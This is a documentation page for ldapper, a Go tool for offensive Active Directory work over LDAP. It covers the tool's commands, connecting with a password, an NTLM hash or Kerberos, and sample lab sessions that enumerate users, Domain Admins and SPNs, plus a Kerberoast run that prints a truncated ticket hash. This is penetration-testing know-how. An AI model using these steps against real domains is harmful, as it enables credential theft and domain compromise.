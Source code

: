 ```yaml
---
title : "ldapper"
# pre : ' '
description : "A GoLang tool to enumerate and abuse LDAP. Made simple."
date : 2022-09-25T12:59:17+02:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## ldapper

A GoLang tool to enumerate and abuse LDAP. Made simple.

Ldapper was created with for use in offensive security engagements for user enumeration, group enumeration, and more. Ldapper uses familiar "net" commands such as "net user" and "net group" to perform all its queries and its output follows the same conventions. Ldapper's user interface operates as a interactive shell, where the user can input commands until exited. All traffic goes over the LDAP(S) protocol with a singular bind to help you better blend into the network. Ldapper is proxy aware and supports NTLM authentication with a user's hash. Additionally, this tool can perform modification actions within LDAP.

Ldapper is proxy aware and supports NTLM authentication with a user's hash. Additionally, this tool can perform modification actions within LDAP. More functionality is planned for later releases, but for now additional supported command functions are:

This tool should be considered in its beta stages. Please report any bugs, issues, or functionality ideas for future releases.

## Installation

```plain
git clone https://github.com/Synzack/ldapper
go mod tidy
go build
```

## Usage

```plain
./ldapper [command]
```

## Flags

```plain
Initialize/Deinitialize:
  connect     Connect to a LDAP server
  disconnect  Close the LDAP connection

Ldapper Commands:
  addComputer  Add a computer to the domain
  roast        Kerberoast a user with an SPN
  spn          Add or remove a SPN on a user account

Ldapper Enumeration:
  brute  Brute force users from a file. No authentication needed.

Ldapper Queries:
  dacl     Query the DACL of a target object
  getspns  Query all user accounts with an SPN
  groups   Query the groups for a target user
  mquota   Query the machine account quota of the domain
  net      Run net commands
  passpol  Query the password policy of the domain

Flags:
  -h, --help        display help
      --nocolor     disable color output
```

## Examples

### Setting up connection

NOTE: `-s` enables LDAP**S** instead of LDAP. LDAP by default is TCP based but Microsoft tend to use UDP for LDAP. LDAP**S** is TCP.

Optional flags:

- `-t` - Enable timestamps for each command performed
- `-s` - Enable the use of LDAP**S**

With Password:  `connect -u <username@domain> -p <password> -d <ip/FQDN>`

With Hash:      `connect -u <username@domain> -H <hash> -d <ip/FQDN>`

With Kerberos:  `connect -u <username@domain> -k -d <ip/FQDN>`

### Starting LDAP-shell session running 'net user'

```plain
crypt0rr@10.10.20.52:389 » net user administrator

User Information - administrator:
-------------------------------------------------------------------------------
User Name:              Administrator
Full Name:              Administrator
Comment:                Built-in account for administering the computer/domain
User Account Control:   USER_NORMAL_ACCOUNT
                        USER_DONT_EXPIRE_PASSWORD
                        (If Enabled, Check Last Lockout Time)
Last Lockout Time: 
Account Expires:        Never
Password Last Set:      12/23/2022 12:40:26 PM
Home Directory: 
Last Logon:             04/04/2023 05:57:05 PM
Logon Count:            70
Mail: 
SPN(s): 
```

### Retrieve ms-DS-MachineAccountQuota

```plain
crypt0rr@10.10.20.52:389 » mquota
Machine Account Quota: 10
```

### Checking password policy

```plain
crypt0rr@10.10.20.52:389 » passpol

Minimum Password Length:        7
Password History Length:        24
Lockout Threshold:              0
Lockout Duration:               10      minutes
Reset Account Lockout Counter:  10      minutes
Minimum Password Age:           1       day(s)
Maximum Password Age:           42      day(s)

Password Complexity:            DOMAIN_PASSWORD_COMPLEX
```

### Retrieve group members 'net group'

```plain
crypt0rr@10.10.20.52:389 » net group "Domain Admins"
Comment: Designated administrators of the domain

Primary Group Members
-------------------------------------------------------------------------------
NestedDAGroup (Group)           QUINN_NASH              ERNIE_GUTHRIE
DAMIAN_DUFFY                    GARTH_HARRINGTON        ALI_SANCHEZ
Administrator
```

A nested group is visible by the `(Group)` naming. To retrieve the members of this nested group use `net nestedGroups`.

```plain
crypt0rr@10.10.20.52:389 » net nestedGroups NestedDAGroup
Comment: 

Primary Group Members
-------------------------------------------------------------------------------
crypt0rr-adm             TANNER_ALSTON            BRANDON_LYNCH  
```

### Get list of SPNs and perform kerberoasting

```plain
crypt0rr@10.10.20.52:389 » getspns
SPN                     Username                PasswordLastSet                 LastLogon       Delegation
CIFS/AWSWVIR1000000     HAL_MURRAY              2022-07-04 15:27:52 +0200 CEST  <never>
CIFS/FINWWKS1000000     MYRON_FORD              2022-07-04 15:26:44 +0200 CEST  <never>
CIFS/TSTWDBAS1000000    SHIRLEY_RANDALL         2022-07-04 15:26:37 +0200 CEST  <never>
CIFS/TSTWVIR1000000     TANYA_DEJESUS           2022-07-04 15:19:32 +0200 CEST  <never>
ftp/AWSWAPPS1000000     HEATH_PATTON            2022-07-04 15:20:44 +0200 CEST  <never>
ftp/AWSWSECS1000000     ANGEL_WORKMAN           2022-07-04 15:25:28 +0200 CEST  <never>
ftp/BDEWWKS1000001      DIANNA_KIRBY            2022-07-04 15:27:31 +0200 CEST  <never>
ftp/FINWLPT1000003      MARVA_CLARK             2022-07-04 15:23:10 +0200 CEST  <never>
ftp/FINWWEBS1000001     RICKIE_RUSSO            2022-07-04 15:20:00 +0200 CEST  <never>
ftp/GOOWLPT1000001      ABE_MASON               2022-07-04 15:23:37 +0200 CEST  <never>
```

Roasting supports both RC4 and AES.

```plain
crypt0rr@10.10.20.52:389 » roast rc4 BERRY_TRAVIS
$krb5tgs$23$*BERRY_TRAVIS$OFFSEC.NL$BERRY_TRAVIS*$1eacfa05b0737825dcc664fabf2a8696$9bb5ddda4f021dcc414a67f768c5f06916c344c566769805f532dcd[...]
```

## URL List

- [Github.com - ldapper](https://github.com/Synzack/ldapper)
